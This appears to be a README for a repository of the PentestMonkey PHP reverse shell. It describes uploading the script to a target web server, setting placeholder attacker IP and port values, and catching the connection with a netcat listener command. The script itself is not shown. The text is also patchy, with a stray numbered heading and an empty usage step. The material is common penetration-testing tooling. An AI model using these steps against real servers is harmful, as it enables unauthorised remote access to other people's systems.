 # php-reverse-shell
# PHP Reverse Shell (PentestMonkey)

This script provides a simple PHP-based reverse shell. Useful for scenarios where you have upload access to a web server running PHP.

## Usage
Upload `php-reverse-shell.php` to the target server and access it via browser:


## Configuration
Edit the IP and port in the script to match your listener: 
```php
$ip = 'YOUR_IP';
$port = YOUR_PORT;
```

## Listener
Set up the listener on your host machine:
```bash
nc -lvnp YOUR_PORT
```



#### 4. **Credit the Original Author**
Respect licensing by including attribution in your `README.md` or a `LICENSE` file:
```markdown
Original script by [PentestMonkey](https://pentestmonkey.net/tools/php-reverse-shell).
Licensed under GPL-2.0.





